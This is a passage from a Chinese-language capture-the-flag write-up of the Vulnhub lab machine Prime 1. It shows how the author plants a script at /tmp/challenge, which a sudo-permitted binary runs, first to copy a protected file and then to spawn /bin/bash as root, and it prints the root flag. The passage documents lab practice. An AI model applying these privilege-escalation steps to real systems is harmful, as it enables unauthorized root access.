

依据报错推测第二行执行了 `/tmp/challenge` ，这里尝试创建 `/tmp/challenge` 并写入内容

```bash
#!/bin/bash
cat /home/victor/undefeated_victor > /tmp/undefeated_victor.txt
chmod 644 /tmp/undefeated_victor.txt
```

再一次执行，看到了 `/tmp/undefeated_victor.txt` 文件

```txt
saket@ubuntu:/tmp$ cat undefeated_victor.txt 
echo  "if you can defeat me then challenge me in front of you";
/tmp/challenge
```

继续修改 challenge 文件内容为

```bash
#!/bin/bash
/bin/bash
```

执行，提权成功！

```txt
saket@ubuntu:/tmp$ sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# sudo -l
Matching Defaults entries for root on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

查看 root flag

```bash
root@ubuntu:/tmp# cat /root/root.txt 
b2b17036da1de94cfb024540a8e7075a
```

## 0x03 总结

这个靶场是我第一个综合性渗透测试靶机，很多时候都得看别人的博客才能进行下一步，在这个过程中学习到了很多技术和思路，感谢这些师傅们。

## 参考链接

【[Vulnhub 打靶记录:Prime 1](https://blog.owenwoow.com/posts/2026/07/01/prime1/)】

【[红队渗透靶场之prime1.0(超详细!) ](https://www.cnblogs.com/henry666/p/17022856.html)】

【[零基础渗透测试全程记录（打靶）——Prime](https://blog.csdn.net/weixin_62808713/article/details/144863644)】